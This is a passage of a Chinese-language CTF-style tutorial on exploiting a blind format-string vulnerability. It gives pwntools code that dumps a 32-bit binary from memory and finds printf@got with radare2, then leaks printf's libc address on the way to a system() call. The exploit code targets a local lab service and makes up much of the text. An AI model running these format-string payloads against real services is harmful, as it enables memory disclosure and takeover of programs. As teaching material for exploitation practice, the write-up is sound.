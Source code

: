 #### dump file
接下来我们就利用该漏洞把二进制文件从内存中 dump 下来：
```python
def dump_memory(start_addr, end_addr):
    result = ""
    while start_addr < end_addr:
        p = remote('127.0.0.1', '10001')
        p.recvline()
        #print result.encode('hex')
        payload = "%9$s.AAA" + p32(start_addr)
        p.sendline(payload)
        data = p.recvuntil(".AAA")[:-4]
        if data == "":
            data = "\x00"
        log.info("leaking: 0x%x --> %s" % (start_addr, data.encode('hex')))
        result += data
        start_addr += len(data)
        p.close()
    return result
start_addr = 0x8048000
end_addr   = 0x8049000
code_bin = dump_memory(start_addr, end_addr)
with open("code.bin", "wb") as f:
    f.write(code_bin)
    f.close()
```
这里构造的 paylaod 和前面有点不同，它把地址放在了后面，是为了防止 printf 的 `%s` 被 `\x00` 截断：
```python
payload = "%9$s.AAA" + p32(start_addr)
```
另外 `.AAA`，是作为一个标志，我们需要的内存在 `.AAA` 的前面，最后，偏移由 7 变为 9。

在没有开启 PIE 的情况下，32 位程序从地址 `0x8048000` 开始，0x1000 的大小就足够了。在对内存 `\x00` 进行 leak 时，数据长度为零，直接给它赋值就可以了。

于是就成了有二进制文件无 libc 的格式化字符串漏洞，在 r2 中查询 printf 的 got 地址：
```
[0x08048490]> is~printf
vaddr=0x08048400 paddr=0x00000400 ord=002 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.printf
[0x08048490]> pd 3 @ 0x08048400
        :   ;-- imp.printf:
        :   0x08048400      ff2574990408   jmp dword [reloc.printf_116] ; 0x8049974
        :   0x08048406      6808000000     push 8                      ; 8
        `=< 0x0804840b      e9d0ffffff     jmp 0x80483e0
```
地址为 `0x8049974`。

#### printf address & system address
接下来通过 printf@got 泄露出 printf 的地址，进行到这儿，就有两种方式要考虑了，即我们是否可以拿到 libc，如果能，就很简单了。如果不能，就需要使用 DynELF 进行无 libc 的利用。

先说第一种：
```python
def get_printf_addr():
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(printf_got)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:4]
    log.info("printf address: %s" % data.encode('hex'))
    return data
printf_addr = get_printf_addr()
```
```
[*] printf address: 70e6e0f7
```
所以 printf 的地址是 `0xf7e0e670`（小端序），使用 libc-database 查询得到 libc.so，然后可以得到 printf 和 system 的相对位置。
```
```